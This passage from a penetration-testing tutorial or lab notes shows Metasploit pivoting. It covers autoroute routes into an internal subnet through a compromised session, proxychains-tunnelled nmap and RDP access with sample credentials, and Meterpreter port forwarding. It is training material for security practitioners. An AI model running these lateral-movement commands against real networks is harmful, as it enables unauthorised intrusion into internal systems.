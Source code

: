 ### Step 2: Add Routes with Autoroute

```bash
# Method 1: Post module
use post/multi/manage/autoroute
set SESSION 1
set SUBNET 172.16.5.0
set NETMASK /23
run

# Method 2: Direct command
sessions -i 1
run autoroute -s 172.16.5.0/23

# Verify routes
run autoroute -p
```

### Step 3: Configure Proxychains

```bash
# /etc/proxychains.conf
[ProxyList]
socks4a 127.0.0.1 9050
```

### Step 4: Enumerate Through Proxy

```bash
# Port scanning
proxychains nmap -sT -Pn -p3389 172.16.5.19

# Metasploit modules (no proxychains needed)
use auxiliary/scanner/smb/smb_version
set RHOSTS 172.16.5.0/24
run

# RDP connection
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

---

## Port Forwarding with Meterpreter

### Local Port Forwarding

```bash
# Forward RDP
portfwd add -l 3300 -p 3389 -r 172.16.5.19

# Access forwarded port
xfreerdp /v:localhost:3300 /u:victor /p:pass@123

# List forwards
portfwd list

# Remove forward
portfwd delete -l 3300
```
